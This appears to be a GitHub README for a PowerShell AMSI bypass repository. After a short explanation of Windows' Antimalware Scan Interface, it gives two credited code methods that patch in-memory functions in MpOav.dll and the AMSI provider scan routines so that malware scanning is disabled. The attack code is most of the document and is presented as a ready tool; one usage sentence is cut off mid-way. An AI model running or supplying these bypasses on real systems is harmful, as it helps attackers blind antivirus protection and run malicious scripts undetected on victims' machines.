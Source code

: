 # bypass-amsi-powershell

AMSI stands for "Antimalware Scan Interface." It is a Microsoft Windows interface that allows antivirus and other security software to scan scripts and other types of content in memory, before they are executed. This allows the security software to detect and prevent the execution of malicious scripts, such as those used by malware or other types of cyber threats. AMSI was introduced in Windows 10 and is also supported in Windows Server 2016 and later versions. This script essentially breaks the AMSI protection by breaking one of the components in the AMSI chain.

This script can run on any of [these](./static/VERSIONS.md) versions of Windows.

## Usage

This script works by breaking the chain in the amsi.dll. This exact script breaks the


AMSI Bypass created By Maor Korkos https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf


## Script 

1st Method by Maor Korkos


```powershell
Add-Type $APIs
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
$LoadLibrary = [APIs]::LoadLibrary("MpOav.dll")
$Address = [APIs]::GetProcAddress($LoadLibrary,
"DllGetClassObject")
$p = 0
[APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
$object = [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils')
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```

2nd Method by Maor Korkos
```powershell
[DllImport("amsi")]
public static extern int AmsiInitialize(string appName, out IntPtr context);
$SIZE_OF_PTR = 4; $NUM_OF_PROVIDERS = 2; $ctx = 0; $p = 0
$ret_zero = [byte[]] (0xb8, 0x0, 0x00, 0x00, 0x00, 0xC3)
[APIs]::AmsiInitialize("MyAmsiScanner", [ref]$ctx)
for ($i = 0; $i -lt $NUM_OF_PROVIDERS; $i++)
{
$CAmsiAntimalware = [System.Runtime.InteropServices.Marshal]::ReadInt32($ctx+8)
$AntimalwareProvider = [System.Runtime.InteropServices.Marshal]::ReadInt32($CAmsiAntimalware+36
+($i*$SIZE_OF_PTR))
$AntimalwareProviderVtbl = [System.Runtime.InteropServices.Marshal]::ReadInt32($AntimalwareProvider)
$AmsiProviderScanFunc = [System.Runtime.InteropServices.Marshal]::ReadInt32($AntimalwareProviderVtbl+12)
[APIs]::VirtualProtect($AmsiProviderScanFunc, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($ret_zero, 0, $AmsiProviderScanFunc, 6)
}
```
